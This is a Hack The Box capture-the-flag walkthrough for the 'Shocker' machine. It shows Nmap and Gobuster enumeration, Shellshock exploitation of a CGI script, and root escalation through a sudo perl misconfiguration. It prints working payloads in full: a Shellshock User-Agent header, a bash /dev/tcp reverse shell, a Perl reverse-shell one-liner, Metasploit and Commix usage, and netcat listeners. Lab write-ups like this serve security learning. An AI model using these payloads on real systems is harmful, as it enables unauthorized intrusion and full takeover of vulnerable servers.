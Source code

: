 # Hackthebox Shocker


Before we start I always reset the box, it is often that services have crashed or behaves in unintended ways after others have exploited them. And I do not want any spoilers that may have been left by others on the box.


## Recon

First, as always. we perform our initial enumeration of the box using Nmap.

```
# Nmap 7.70 scan initiated Tue Oct  9 21:05:58 2018 as: nmap -v -sV -oA shocker_tcp 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.037s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Running a full scan did not show any additional open ports.

There are only two services to focus on. Let's start with the webserver.

### Content Discovery

I run Gobuster on the application as I browse it manually with a browser.

```
root@kali:~/hackthebox# gobuster -u http://10.10.10.56/ -w /usr/share/wordlists/dirb/small.txt

=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.56/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirb/small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2018/10/09 22:23:33 Starting gobuster
=====================================================
/cgi-bin/ (Status: 403)
=====================================================
2018/10/09 22:23:37 Finished
=====================================================
```

The Gobuster scan only reveal a directory called /cgi-bin/, but we are forbidden to access it.

If we visit the page we are presented with a picture and the text "Don't Bug Me!". The attacksurface seems extremly small. 

I download the picture to look for anything hidden (steganography), but no luck.

So, what next. The box is called "shocker", this could have something to do with shellshock. This is a vulnerability that could affect scripts in cgi-bin directories (among others).

Let's enumerate that folder some more. I specify that the scan should look for .sh-files using the -x flag on gobuster.

```
root@kali:~/hackthebox# gobuster -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x sh

=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.56/cgi-bin/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirb/small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : sh
[+] Timeout      : 10s
=====================================================
2018/10/09 22:25:46 Starting gobuster
=====================================================
/user.sh (Status: 200)
=====================================================
2018/10/09 22:25:53 Finished
=====================================================
```

Bingo, we have found a script. There must be a shellshock issue here somewhere.


## Initial Compromise

There is a tool called Commix that can scan and exploit command injection issues such as shellshock.

```
root@kali:~/hackthebox/shocker# commix -u http://10.10.10.56/cgi-bin/user.sh --shellshock
                                      __
   ___   ___     ___ ___     ___ ___ /\_\   __  _
 /`___\ / __`\ /' __` __`\ /' __` __`\/\ \ /\ \/'\  v2.6-stable
/\ \__//\ \L\ \/\ \/\ \/\ \/\ \/\ \/\ \ \ \\/>  </
\ \____\ \____/\ \_\ \_\ \_\ \_\ \_\ \_\ \_\/\_/\_\ http://commixproject.com
 \/____/\/___/  \/_/\/_/\/_/\/_/\/_/\/_/\/_/\//\/_/ (@commixproject)

+--
Automated All-in-One OS Command Injection and Exploitation Tool
Copyright (c) 2014-2018 Anastasios Stasinopoulos (@ancst)
+--

[*] Checking connection to the target URL... [ SUCCEED ]
[*] Testing the shellshock injection technique... [ SUCCEED ][*] Identified the following injection point with a total of 2 HTTP(S) requests.                                                               

[+] The (User-Agent) 'http://10.10.10.56/cgi-bin/user.sh' seems vulnerable via shellshock injection technique.                                                                                              
    [~] Payload: "() { :; }; echo CVE-2014-6271:Done;"

[?] Do you want a Pseudo-Terminal shell? [Y/n] >

Pseudo-Terminal (type '?' for available options)
commix(os_shell) > 
```
However I found the shell somewhat buggy. So let's do it manually. We know that the User-Agent header is vulnerable.

The following GET request will list the contents of the webroot folder:

```
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: () { :;}; echo; /bin/ls
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Reverse shell:

```
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: () { :;}; echo; /bin/bash -i >& /dev/tcp/10.10.14.17/1234 0>&1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
Catch the shell:

```
root@kali:~/htb/shocker# nc -lvp 1234
listening on [any] 1234 ...
10.10.10.56: inverse host lookup failed: Unknown host
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.56] 58426
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

We can also use the Metasploit module for shellshock to get a meterpreter shell:

```
msf exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit 

[*] Started reverse TCP handler on 10.10.14.17:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (861480 bytes) to 10.10.10.56
[*] Meterpreter session 1 opened (10.10.14.17:4444 -> 10.10.10.56:47002) at 2018-11-12 21:45:06 +0100

meterpreter > getuid 
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter > sysinfo
Computer     : 10.10.10.56
OS           : Ubuntu 16.04 (Linux 4.4.0-96-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```
## Privilege Escalation

A typical Linux privilege escalation method is based on one of the following:

1. Exploiting services running as root
2. Exploiting SUID executables
3. Exploiting SUDO rights/user
4. Exploiting badly configured cron jobs
5. Exploiting users with "." in their path
6. Kernel Exploits

Kernel exploits are typically our last resort, as there is a risk that we crash the system in the process. 

Using our shell I check what we can do with sudo:

```
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

We can run perl as root without having to supply a password with sudo. So if we simply run a perl reverse shell to our attacking machine, with sudo, we should have root.

```
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'use Socket;$i="10.10.14.17";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

We catch the incoming shell:

```
root@kali:~/htb# nc -lvp 443
listening on [any] 443 ...
10.10.10.56: inverse host lookup failed: Unknown host
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.56] 36864
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```
